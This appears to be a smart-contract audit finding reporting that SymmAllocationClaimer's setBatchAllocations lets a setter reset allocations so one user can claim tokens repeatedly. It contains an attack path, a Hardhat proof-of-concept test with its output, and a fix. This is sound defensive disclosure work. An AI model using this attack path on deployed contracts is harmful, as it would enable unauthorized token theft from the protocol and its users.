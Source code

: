 Teeny Vanilla Otter

Medium

# Setter role will allow unlimited token claims by the same user

### Summary

The lack of claiming history validation will cause an economic vulnerability for the SymmAllocationClaimer protocol as a compromised setter or malicious user with setter role will reset allocations for users who have already claimed, allowing them to claim multiple times.

### Root Cause

In [SymmAllocationClaimer.sol:90-106](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/claimSymm/SymmAllocationClaimer.sol#L90-L106) the `setBatchAllocations` function updates user allocations without checking if they've already claimed tokens. This allows resetting allocations for users who have already claimed.

### Internal Pre-conditions

  1. A user needs to have an allocation set by a setter
  2. The user needs to claim their allocation
  3. A setter needs to call `setBatchAllocations` for the same user, setting a new allocation value

### External Pre-conditions

None

### Attack Path

  1. Setter calls `setBatchAllocations` to set an allocation for User1
  2. User1 calls `claim()` to claim their allocation
  3. Setter calls `setBatchAllocations` again for User1, updating their allocation to a new value
  4. User1 calls `claim()` again to claim the new allocation
  5. Steps 3-4 can be repeated indefinitely


### Impact

The protocol suffers an unauthorized token distribution beyond intended allocations. The system could reach the `MAX_ISSUABLE_TOKEN` limit (400,000,000 tokens) in a way that favors specific users who can claim multiple times, leading to an unfair distribution model. Malicious users with setter privileges could claim far more tokens than intended for their addresses.

### PoC

Add the test into file: `token/tests/SymmAllocationClaimer.vulnerability.ts`

```solidity
  it("VULNERABILITY: Allows users to claim multiple times when allocations are reset", async () => {
    // Initial setup - Set allocations for a user
    const users = [context.signers.user1.address]
    const allocations = [e(1000)]
    await symmClaim.connect(context.signers.setter).setBatchAllocations(users, allocations)
    
    // User claims their allocation
    await symmClaim.connect(context.signers.user1).claim()
    
    // Check balances after first claim
    let user1Balance = await symmToken.balanceOf(context.signers.user1.address)
    expect(user1Balance).to.equal(e(500)) // 50% of 1000 (based on mintFactor)
    expect(await symmClaim.adminClaimableAmount()).to.equal(e(500)) 
    expect(await symmClaim.userAllocations(context.signers.user1.address)).to.equal(e(0))
    
    // Setter updates allocation for the same user
    const newAllocations = [e(2000)]
    await symmClaim.connect(context.signers.setter).setBatchAllocations(users, newAllocations)
    
    // Verify allocation is updated
    expect(await symmClaim.userAllocations(context.signers.user1.address)).to.equal(e(2000))
    
    // User can claim again with new allocation
    await symmClaim.connect(context.signers.user1).claim()
    
    // Check balances after second claim
    user1Balance = await symmToken.balanceOf(context.signers.user1.address)
    expect(user1Balance).to.equal(e(1500)) // 500 (first claim) + 1000 (second claim)
    expect(await symmClaim.adminClaimableAmount()).to.equal(e(1500)) // 500 (first claim) + 1000 (second claim)
    
    // User's claimedAmounts should reflect all claims
    expect(await symmClaim.userClaimedAmounts(context.signers.user1.address)).to.equal(e(1500))
  })
```

Result example:
```bash
npx hardhat test --grep "VULNERABILITY: Allows users to claim multiple times when allocations are reset"

  SymmAllocationClaimer Security Analysis
deploy:SymmioToken
Symmio Token deployed: 0x8b9d5A75328b5F3167b04B42AD00092E7d6c485c
deploy:SymmAllocationClaimer
SymmAllocationClaimer deployed: 0x9BcA065E19b6d630032b53A8757fB093CbEAfC1d
deploy:Vesting
Warning: Potentially unsafe deployment of contracts/vesting/SymmVesting.sol:SymmVesting

    You are using the `unsafeAllow.external-library-linking` flag to include external libraries.
    Make sure you have manually checked that the linked libraries are upgrade safe.

SymmVesting Contract deployed at: 0x15BB2cc3Ea43ab2658F7AaecEb78A9d3769BE3cb
deploy:SymmStaking
SymmStaking Contract deployed at: 0xAE246E208ea35B3F23dE72b697D47044FC594D5F
    ✔ VULNERABILITY: Allows users to claim multiple times when allocations are reset

·-------------------------------------------------|---------------------------|-------------|-----------------------------·
|              Solc version: 0.8.27               ·  Optimizer enabled: true  ·  Runs: 200  ·  Block limit: 30000000 gas  │
··················································|···························|·············|······························
|  Methods                                                                                                                │
··························|·······················|·············|·············|·············|···············|··············
|  Contract               ·  Method               ·  Min        ·  Max        ·  Avg        ·  # calls      ·  usd (avg)  │
··························|·······················|·············|·············|·············|···············|··············
|  SymmAllocationClaimer  ·  claim                ·      63588  ·     166188  ·     114888  ·            2  ·          -  │
··························|·······················|·············|·············|·············|···············|··············
|  SymmAllocationClaimer  ·  grantRole            ·      34162  ·     118221  ·      97989  ·            5  ·          -  │
··························|·······················|·············|·············|·············|···············|··············
|  SymmAllocationClaimer  ·  setBatchAllocations  ·      56490  ·      73590  ·      65040  ·            2  ·          -  │
··························|·······················|·············|·············|·············|···············|··············
|  Symmio                 ·  grantRole            ·      29085  ·     118284  ·      82851  ·            3  ·          -  │
··························|·······················|·············|·············|·············|···············|··············
|  Deployments                                    ·                                         ·  % of limit   ·             │
··················································|·············|·············|·············|···············|··············
|  SymmAllocationClaimer                          ·          -  ·          -  ·    1546040  ·        5.2 %  ·          -  │
··················································|·············|·············|·············|···············|··············
|  Symmio                                         ·          -  ·          -  ·    1114724  ·        3.7 %  ·          -  │
··················································|·············|·············|·············|···············|··············
|  SymmStaking                                    ·          -  ·          -  ·    2173101  ·        7.2 %  ·          -  │
··················································|·············|·············|·············|···············|··············
|  SymmVesting                                    ·          -  ·          -  ·    3328951  ·       11.1 %  ·          -  │
··················································|·············|·············|·············|···············|··············
|  VestingPlanOps                                 ·          -  ·          -  ·     277449  ·        0.9 %  ·          -  │
·-------------------------------------------------|-------------|-------------|-------------|---------------|-------------·

  1 passing (1s)
```

### Mitigation


To fix this vulnerability, implement a check in the `setBatchAllocations` function to verify if a user has already claimed tokens:

```solidity
function setBatchAllocations(address[] calldata users, uint256[] calldata allocations) external onlyRole(SETTER_ROLE) {
    if (users.length != allocations.length) revert ArrayLengthMismatch();
    if (users.length == 0) revert EmptyArrays();
    for (uint256 i = 0; i < users.length; i++) {
        if (users[i] == address(0)) revert ZeroAddress();
        // Add check to prevent re-allocation for users who have already claimed
        if (userClaimedAmounts[users[i]] > 0) continue; // Skip users who have already claimed
        
        // Subtract old allocation from total
        totalAllocation = totalAllocation - userAllocations[users[i]];
        // Set new allocation
        userAllocations[users[i]] = allocations[i];
        // Add new allocation to total
        totalAllocation = totalAllocation + allocations[i];
    }
    if (totalAllocation > MAX_ISSUABLE_TOKEN) {
        revert TotalAllocationExceedsMax(totalAllocation, MAX_ISSUABLE_TOKEN);
    }
    emit BatchAllocationsSet(users, allocations);
}
```